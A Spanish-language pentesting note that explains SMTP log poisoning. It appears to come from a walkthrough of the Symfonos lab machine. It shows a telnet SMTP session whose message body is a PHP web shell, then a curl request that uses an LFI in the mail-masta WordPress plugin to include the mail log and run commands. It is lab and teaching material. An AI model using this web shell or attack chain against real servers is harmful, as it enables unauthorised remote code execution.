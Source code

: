 <br>
SMTP solo se encarga de enviar correos electrónicos, no los almacena ni los muestra al usuario final, para esto se utilizan los protocolos POP3 y IMAP.
<br><br>

<b>Log Poisoning.</b><br>
Puedes conectarte a la máquina usando telnet para enviar un correo electrónico a un usuario válido dentro del sistema, el cual contenga código malicioso php y ver si se acontece un <b>Log Poisoning</b> y ejecutar comandos de forma remota RCE (Remote Code Execution), todo esto en caso de que no se requiera de autenticación al momento de conectarse con telnet al puerto 25de SMTP.<br>
Ejemplo:

```
telnet <ip-address> 25
```

<br>
Una vez conectado, esta sería la estructura básica para enviar un correo por SMTP.

```
MAIL FROM: <username>	
# MAIL FROM: Es para específicar el remitente del correo.

RCPT TO: <username>	
# RCPT TO: Es para indicar el resceptor del correo, pero este tiene que ser un usuario válido dentro del sistema.
DATA			                      # Poner el comando DATA y luego dar enter para introducir el mensaje del correo.
<?php system($_GET['cmd']); ?>	# Códido php para aplicar un RCE mediante el parametro cmd.
.			                          # Al termino del correo se debe finalizar con un punto.

QUIT			                      # Cortar la conexión.
```

<br>
Ya solo queda revisar los logs para veríficar que se haya guardado correctamente en la ruta /var/mail/\<username\>, mediante un LFI (Local File Inclution).<br>
Este sería un ejemplo desde consola usando el comando curl para tramitar la petición al sitio web y ver los logs.

```
curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=whoami"

# helios es el nombre de usuario al cual se le envió en correo.
# -s -> Indica que la petición se realizará en formato silencioso. 
# -X -> Este parametro es para específicar el método por el cual se tramitará la petición que en este caso se usa el método GET.
# &cmd=whoami -> Concatenación del parámetro cmd para inyectar el comando whoami y ver si se tiene ejecución remota de comandos "RCE".
```

<br>
Para ver los logs desde el sitio web solo basta con poner la url donde se acontece el LFI seguido del parámetro cmd para inyectar los comandos.<br>
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/<username>&cmd=whoami
